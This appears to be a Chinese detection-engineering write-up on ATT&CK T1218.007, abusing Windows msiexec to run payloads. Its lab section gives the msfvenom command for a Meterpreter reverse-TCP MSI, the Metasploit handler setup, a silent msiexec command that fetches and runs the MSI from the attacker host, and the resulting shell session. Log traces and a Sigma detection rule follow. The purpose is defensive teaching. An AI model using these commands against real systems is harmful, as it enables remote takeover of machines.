 # T1218-007-win-基于白名单Msiexec执行Payload

## 来自ATT&CK的描述

可信数字证书签署的二进制文件在Windows操作系统执行时，可通过数字签名验证保护。Windows安装过程中默认安装的一些微软签名的二进制文件可用来代理执行其它文件。攻击者可能会滥用此技术来执行可能绕过应用白名单机制和系统签名验证的恶意文件。该技术考虑了现有技术中尚未考虑的代理执行方法。

## 测试案例

Msiexec是Windows Installer的一部分。用于安装Windows Installer安装包（MSI）,一般在运行Microsoft Update安装更新或安装部分软件的时候出现，占用内存比较大。并且集成于Windows 2003，Windows 7等。

说明：Msiexec.exe所在路径已被系统添加PATH环境变量中，因此，Msiexec命令可识别。Ftp.exe是Windows本身自带的一个程序，属于微软FTP工具，提供基本的FTP访问。

说明：Ftp.exe所在路径已被系统添加PATH环境变量中，因此，Ftp.exe命令可识别。

· msiexec.exe /q /i"C:\path\to\file.msi"

· msiexec.exe /q /i http[:]//site[.]com/file.msi

· msiexec.exe /y "C:\path\to\file.dll"

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows 7

### 攻击分析

#### 生成payload.dll

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.126.146 lport=1234 -f msi > 1.msi
```

#### 执行监听

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) >expliot
```

#### 靶机执行payload

```cmd
msiexec /q /i http://192.168.126.146/1.msi
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:1234
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:1234 -> 192.168.126.149:49323) at 2020-04-18 22:04:26 +0800

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
```

## 测试留痕

```log
# windows安全日志
事件ID： 4688
进程信息:
新进程 ID: 0xe78
新进程名: C:\Windows\System32\msiexec.exe

# sysmon日志
事件ID：1
UtcTime: 2020-04-18 14:04:16.596
ProcessGuid: {bb1f7c32-08e0-5e9b-0000-0010b8ff3f01}
ProcessId: 3704
Image: C:\Windows\System32\msiexec.exe
FileVersion: 5.0.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows® installer
Product: Windows Installer - Unicode
Company: Microsoft Corporation
OriginalFileName: msiexec.exe
CommandLine: msiexec  /q /i http://192.168.126.146/1.msi
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=443AAC22D57EDD4EF893E2A245B356CBA5B2C2DD
ParentProcessGuid: {bb1f7c32-08db-5e9b-0000-001049f63d01}
ParentProcessId: 1900
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe"
```

## 检测规则/思路

### sigma规则

```yml
title: MsiExec Web Install
status: experimental
description: Detects suspicious msiexec process starts with web addreses as parameter
references:
    - https://blog.trendmicro.com/trendlabs-security-intelligence/attack-using-windows-installer-msiexec-exe-leads-lokibot/
tags:
    - attack.defense_evasion
author: Florian Roth
date: 2018/02/09
modified: 2012/12/11
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        CommandLine:
            - '* msiexec*://*'
    condition: selection
falsepositives:
    - False positives depend on scripts and administrative tools used in the monitored environment
level: medium
```

### 建议

可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1218-007

<https://attack.mitre.org/techniques/T1218/007/>

基于白名单的Payload

<https://blog.csdn.net/weixin_30790841/article/details/101848854>
